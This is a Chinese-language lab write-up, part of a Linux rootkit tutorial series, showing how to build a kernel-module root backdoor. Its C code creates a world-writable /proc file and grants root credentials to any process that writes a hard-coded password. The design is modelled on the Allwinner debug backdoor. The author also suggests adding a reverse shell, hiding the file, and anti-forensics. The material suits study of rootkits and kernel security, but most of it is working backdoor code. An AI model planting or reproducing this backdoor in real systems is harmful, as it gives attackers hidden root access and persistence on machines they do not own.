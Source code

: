 ```yaml
---
category: Sec
title: Linux Rootkit 实验 | 00021 Rootkit 基本功能实现xROOT后门
---
```


# Linux Rootkit 实验 | 00021 Rootkit 基本功能实现xROOT后门

## 实验说明

本次实验将初步实现 rootkit 的基本功能：

- 阻止其他内核模块加载
- 提供 root 后门
- 隐藏文件
- 隐藏进程
- 隐藏端口
- 隐藏内核模块

本次实验基于 0001 实验中学习的挂钩技术。

注：由于本次实验内容过多，故分为`00020`到`00025`六个实验报告分别讲解。

**本节实现“提供 root 后门”功能**

## 实验环境

```
uname -a:
Linux kali 4.6.0-kali1-amd64 #1 SMP Debian 4.6.4-1kali1 (2016-07-21) x86_64 GNU/Linux

GCC version:6.1.1
```

上述环境搭建于虚拟机，另外在没有特殊说明的情况下，均以 root 权限执行。

**注：后面实验参考的是4.10.10的源码**

## 实验过程

### 提供 root 后门

这个后门参考之前很火的“全志科技”使用的代码。

简单来说，是这样：我们在`/proc`下创建一个文件，任何进程往其中写入特定的口令，我们就把它提升为`root`权限（把`uid`和`euid`等设为`0`）。

**这个文件可以用本系列后面的“隐藏文件”实验的方法隐藏掉。**

使用到的 API 是`proc_create`和`proc_remove`：

{% highlight c %}
// include/linux/proc_fs.h
// 参数分别是：文件名/访问模式/父目录/文件操作函数结构体
static inline struct proc_dir_entry *proc_create(
	const char *name, umode_t mode, struct proc_dir_entry *parent,
	const struct file_operations *proc_fops)
{
	return proc_create_data(name, mode, parent, proc_fops, NULL);
}
// fs/proc/generic.c
void proc_remove(struct proc_dir_entry *de)
{
	if (de)
		remove_proc_subtree(de->name, de->parent);
}
{% endhighlight %}

我们跟进看一下`struct file_operations`：

{% highlight c %}
// include/linux/fs.h
struct file_operations {
	struct module *owner;
	loff_t (*llseek) (struct file *, loff_t, int);
	ssize_t (*read) (struct file *, char __user *, size_t, loff_t *);
	ssize_t (*write) (struct file *, const char __user *, size_t, loff_t *);
	ssize_t (*read_iter) (struct kiocb *, struct iov_iter *);
	ssize_t (*write_iter) (struct kiocb *, struct iov_iter *);
	int (*iterate) (struct file *, struct dir_context *);
	int (*iterate_shared) (struct file *, struct dir_context *);
	unsigned int (*poll) (struct file *, struct poll_table_struct *);
	long (*unlocked_ioctl) (struct file *, unsigned int, unsigned long);
	long (*compat_ioctl) (struct file *, unsigned int, unsigned long);
	int (*mmap) (struct file *, struct vm_area_struct *);
	int (*open) (struct inode *, struct file *);
	int (*flush) (struct file *, fl_owner_t id);
	int (*release) (struct inode *, struct file *);
	int (*fsync) (struct file *, loff_t, loff_t, int datasync);
	int (*fasync) (int, struct file *, int);
	int (*lock) (struct file *, int, struct file_lock *);
	ssize_t (*sendpage) (struct file *, struct page *, int, size_t, loff_t *, int);
	unsigned long (*get_unmapped_area)(struct file *, unsigned long, unsigned long, unsigned long, unsigned long);
	int (*check_flags)(int);
	int (*flock) (struct file *, int, struct file_lock *);
	ssize_t (*splice_write)(struct pipe_inode_info *, struct file *, loff_t *, size_t, unsigned int);
	ssize_t (*splice_read)(struct file *, loff_t *, struct pipe_inode_info *, size_t, unsigned int);
	int (*setlease)(struct file *, long, struct file_lock **, void **);
	long (*fallocate)(struct file *file, int mode, loff_t offset,
			  loff_t len);
	void (*show_fdinfo)(struct seq_file *m, struct file *f);
#ifndef CONFIG_MMU
	unsigned (*mmap_capabilities)(struct file *);
#endif
	ssize_t (*copy_file_range)(struct file *, loff_t, struct file *,
			loff_t, size_t, unsigned int);
	int (*clone_file_range)(struct file *, loff_t, struct file *, loff_t,
			u64);
	ssize_t (*dedupe_file_range)(struct file *, u64, u64, struct file *,
			u64);
};
{% endhighlight %}

其中是各种函数指针。我们目前只用到写操作处理函数：

{% highlight c %}
	ssize_t (*write) (struct file *, const char __user *, size_t, loff_t *);
{% endhighlight %}

**下面开始行动！**

{% highlight c %}
// 声明写处理函数并放入结构体
ssize_t
write_handler(struct file * filp, const char __user *buff,
              size_t count, loff_t *offp);

struct file_operations proc_fops = {
    .write = write_handler
};

// 定义写处理函数
#define AUTH "00100011F"
ssize_t
write_handler(struct file * filp, const char __user *buff,
              size_t count, loff_t *offp)
{
    char *kbuff;
    struct cred* cred;

    // 分配内存。
    kbuff = kmalloc(count + 1, GFP_KERNEL);
    if (!kbuff) {
        return -ENOMEM;
    }

    // 复制到内核缓冲区。
    if (copy_from_user(kbuff, buff, count)) {
        kfree(kbuff);
        return -EFAULT;
    }
    kbuff[count] = (char)0;

    if (strlen(kbuff) == strlen(AUTH) &&
        strncmp(AUTH, kbuff, count) == 0) {

        // 用户进程写入的内容是我们的口令或者密码，
        // 把进程的 ``uid`` 与 ``gid`` 等等
        // 都设置成 ``root`` 账号的，将其提权到 ``root``。
        printk("%s\n", "Comrade, I will help you.");
        cred = (struct cred *)__task_cred(current);
        cred->uid = cred->euid = cred->fsuid = GLOBAL_ROOT_UID;
        cred->gid = cred->egid = cred->fsgid = GLOBAL_ROOT_GID;
        printk("%s\n", "See you!");
    } else {
        // 密码错误，拒绝提权。
        printk("Alien, get out of here: %s.\n", kbuff);
    }

    kfree(kbuff);
    return count;
}
{% endhighlight %}

最后，添加全局变量`struct proc_dir_entry *entry`，并分别在入口函数/出口函数中创建/删除我们的文件：

{% highlight c %}
#define NAME "JUSTFORFUN"
struct proc_dir_entry *entry;
// in init
entry = proc_create(NAME, S_IRUGO | S_IWUGO, NULL, &proc_fops);
// in exit
proc_remove(entry);
{% endhighlight %}

测试结果如下：

![]({{ site.url }}/images/LinuxRootkits/linux-rkt-8.png)

## 实验总结与思考

- 内核中的事情，真的是要细心。顺着 FreeBuf 的文章往下看时，`kbuff = kmalloc(count, GFP_KERNEL);`这个地方少分配了一个尾零。事实上应该是`kbuff = kmalloc(count + 1, GFP_KERNEL);`

- 另外注意：

是

![]({{ site.url }}/images/LinuxRootkits/linux-rkt-7-err3.png)

而不是

![]({{ site.url }}/images/LinuxRootkits/linux-rkt-7-err4.png)

- 个人以为 rootkit 应该提供一个能够远程连接的 root shell（对于内网的机器，用 reverse shell 是不是更好），并具备痕迹清理、自我删除甚至更强的反取证功能（另外，是否需要隐藏当前登录用户？）

## 参考资料

**已参考**

- [allwinner-zh/linux-3.4-sunxi](https://github.com/allwinner-zh/linux-3.4-sunxi/blob/bd5637f7297c6abf78f93b31fc1dd33f2c1a9f76/arch/arm/mach-sunxi/sunxi-debug.c#L41)

**拓展阅读**

- [This is what a root debug backdoor in a Linux kernel looks like](http://www.theregister.co.uk/2016/05/09/allwinners_allloser_custom_kernel_has_a_nasty_root_backdoor/)
